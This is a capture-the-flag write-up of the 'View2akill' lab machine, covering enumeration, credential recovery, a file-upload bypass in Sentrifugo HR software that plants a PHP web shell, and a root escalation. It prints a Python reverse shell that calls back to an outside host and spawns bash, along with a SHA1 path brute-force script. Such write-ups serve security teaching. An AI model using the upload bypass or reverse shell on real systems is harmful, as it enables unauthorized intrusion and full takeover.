 ```yaml
---
layout: post
title: View2akill writeup
date: 2019-11-16 11:17
---
```


<h4 align="center">Box Author: <a href="https://twitter.com/_creosote"> Melvin C</a></h4>

## Nmap

![](images/kill/nmap.png)

so there is a SMTP server there and also there is a HTTP service on port 8191.

Let's start our enumeration from HTTP service.

***

## HTTP

![](images/kill/website.png)

we can see a really cool looking GIF. I ran gobuster on the website and found we directories:

![](images/kill/gobuster.png)

The first thing I checked was the `robots.txt`

![](images/kill/robots.png)

From there I decided to look into `/zorin` and there I found `hr.html` which had a message

![](images/kill/zorin.png)

```
In the mean time use /sentrifugo for current HR mgmt.

During this transition period all new users (from now on) will have their sentrifugo passwords automatically set to toor so no real email address is required for the system to send the initial automatically generated password. Please be patient as the reset to toor may take up to a minute.
```

Then in `/dev` I found some files.

![](images/kill/dev.png)

The first thing I downloaded from that one was `e_bkup.tar.gz` which had 3 `rtf` file and one of them named `New_Employee_Onboarding_Chuck.rtf` had some information on what the password for `Chuck` would be.

![](images/kill/chuck-password.png)

```
Greeting Chuck, We welcome you to the team! Please login to our HR mgmt portal(which we spoke of) and fill out your profile and Details. Make sure to enter in the descrption of your CISSP under Training & Certificate Details since you mentioned you have it. I will be checking that section often as I need to fill out related paperwork. Login username: chuck@localhost.com and password is the lowercase word/txt from the cool R&D video I showed you with the remote detonator + the transmit frequency of an HID proxcard reader - so password format example: facility007. Sorry for the rigmarole, the Security folks will kill me if I send passwords in clear text. We make some really neat tech here at Zorin, glad you joined the team Chuck Lee! }
```

So after looking at the `remote_control.gif` I found out that the password was `helicopter125`. Now on the `/zorin/hr.html` we found out that for `HR mgmt` we need to visit `/sentrifugo`.

![](images/kill/sentri.png)

Using `chuck@localhost.com - helicopter125` I was able to login into the HR system. Now I looked around but didn't found anything then I used  `searchsploit` and found out that there were 3 vulnerabilities.

![](images/kill/search.png)

The crazy part is that all these vulnerabilities are actually found by the box author himself.

I tried the XSS vulnerability but that didn't worked for (it worked for @andreaz) so I decided to use the [File Upload Restriction Bypass](https://www.exploit-db.com/exploits/47323). In that exploit two places are mentioned to upload the shell:

```
/sentrifugo/index.php/mydetails/documents -- Self Service >> My Details >> Documents (any permissions needed)
sentrifugo/index.php/policydocuments/add -- Organization >> Policy Documents (higher permissions needed)
```

But none of them were accesible, then [@theart42](https://twitter.com/theart42) found that we are allowed to upload the expense report in `/sentrifugo/index.php/expenses/expenses`.

You can follow the exploit to get the RCE on the system. All you need to do is upload a file named `shell.php.doc` and while uploading edit the file name to `shell.php` and then save it. Then you need to visit
```
http://192.168.56.136/sentrifugo/public/uploads/expense_receipt_temp/1573960913_3_shell.php
```

And to be able to execute command we need to enter parameter `?cmd=`

![](images/kill/RCE.png)

Once I had the RCE I tried executing the `nc` command but I was not able to run them. So I uploaded a php reverse shell and then executed it which gave me the shell.

![](images/kill/rev.png)

***

## Privilege escalation

In the `/home/jenny` I found a `zip` file.

![](images/kill/dir.png)

I downloaded the zip file and then unzipped it and it gave out `password.txt` and `todo.txt`

![](images/kill/unzip.png)

![](images/kill/todo.png)

![](images/kill/password.png)

```
hr mgmt:
jenny@localhost.com - ThisisAreallYLONGPAssw0rdWHY!!!!

ssh
jenny - !!!sfbay!!!

```

Using those SSH credential I logged into jenny's account.

![](images/kill/ssh.png)

I started looking around and in `/home/max` I found a `note.txt` which read

```
Max,

The electronic controller web application you asked for is almost done. Located on port 8191 this app will allow you to execute your plan from a remote location.

The remote trigger is located in a hidden web directory that only you should know - I verbally confirmed it with you. If you do not recall, the directory is based on an algorithm:  SHA1(lowercase alpha(a-z) + "view" + digit(0-9) + digit(0-9)).

Example: SHA1(rview86) = 044c64c6964998ccb62e8facda730e8307f28de6 = http://<ip>:8191/044c64c6964998ccb62e8facda730e8307f28de6/

- Scarpine
```

This mean we need to write a code to be able to do that. To brute force the path I wrote a script in python which found the correct path for me:

```python
import string
from hashlib import sha1

import requests

URL = "http://192.168.56.136:8191/{}"
paths = []

for alpha in string.ascii_lowercase:
    for n in string.digits:
        for m in string.digits:
            path = sha1((alpha + "view" + n + m + "\n").encode("utf-8")).hexdigest()
            paths.append(path)


for i in paths:
    url = URL.format(i)
    r = requests.get(url)
    if len(r.content) > 167:
        print(url)
        break
```

With this I was able to find the correct URL to visit:

http://192.168.56.136:8191/7f98ca7ba1484c66bf09627f931448053ae6b55a

When I opened that URL I got a page with huge red button in it.

![](images/kill/thatpage.png)

When we hit that button we get

![](images/kill/nothing.png)

This mean it's executing the code that is supposed to be in `aView.py` because following was the content of `aView.py`

![](images/kill/aview.png)

so I copied the following code in that python file:

```python
import socket,subprocess,os
import pty

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.56.1",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/bash")
```

And then pressed that red button to get shell as root.

![](images/kill/root-shell.png)

Then I got the root flag.

![](images/kill/root2.png)

![](images/kill/root.png)

***

Oh this was an awesome machine just like other machines by creosote. I really enjoyed this, especially the fact that initial foothold depends on the vulnerabilities that were found by the author himself. 😱😱

Thanks for this awesome machine. Also thanks to [@theart42](https://twitter.com/theart42) and [@4nqr34z](https://twitter.com/4nqr34z) for the help.

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”.

